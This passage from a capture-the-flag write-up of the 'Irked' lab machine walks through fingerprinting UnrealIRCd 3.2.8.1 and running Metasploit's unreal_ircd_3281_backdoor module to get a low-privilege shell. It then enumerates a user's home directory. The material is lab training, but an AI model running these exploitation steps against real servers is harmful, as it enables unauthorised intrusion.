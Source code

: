 In this case, the `gobuster` results return nothing too relevant. We could proceed with a larger
directory list, however for Irked, we will not be gaining access through port 80.

## Exploitation

### Low Privilege Shell via UnrealIRCd

From our NMAP scans, we know that there is an IRC server running. Let’s try to connect, shall we?
Connecting to the IRC server using port 65534 via HexChat granted access with no authentication,
and we are greeted with the following MOTD in IRC:

```bash
* Welcome to the ROXnet IRC Network root_!root@10.10.**.***
* Your host is irked.htb, running version Unreal3.2.8.1
* This server was created Mon May 14 2018 at 13:12:50 EDT
* irked.htb Unreal3.2.8.1 iowghraAsORTVSxNCWqBzvdHtGp
```

Score. The MOTD of the IRC channel displays the UnrealIRCd version number: `Unreal 3.2.8.1`
A quick exploit-db search yields the following: https://www.exploit-db.com/exploits/16922
Examination of this exploit, we realize it is a `Metasploit` module. Let’s fire up `Metasploit` with the
following command: `msfdb run`

Now that we have Metasploit running, let’s use the exploit with the following command:

`msf5> use exploit/unix/irc/unreal_ircd_3281_backdoor`

Now let’s configure and run the exploit using the following commands below:

```bash
msf5 exploit (unreal_ircd_3281_backdoor) > set RHOSTS 10.10.10.117
msf5 exploit (unreal_ircd_3281_backdoor) > set RPORT 65534
msf5 exploit (unreal_ircd_3281_backdoor) > exploit
```

We are now a low privilege shell on the box. Running `whoami` tells us that we are ircd, and id tells
us that we are `uid=1001(ircd) gid=1001(ircd) groups=1001(ircd)`. We can spawn a TTY shell
and begin further exploitation. Woohoo!

### User Access via Low Privilege Shell

With our new found low privilege shell access, we can begin enumerating all directories and files
that we have access to. Using cd, we navigate to `/home/` where we see that we have access to two
users: `djmardov` and ircd. Let’s inspect `djmardov`. Perform the following commands below:

```bash
$ cd /home/djmardov/Documents
$ ls -a
```

Using `ls -a`, we notice there are two files in the documents directory, `.backup` and `user.txt`. The
`user.txt` file is the user flag, however we do not have permissions to read the file. `.backup`, on the
other hand, is readable. We use `cat` to read the file: `$ cat /home/djmardov/Documents/.backup`
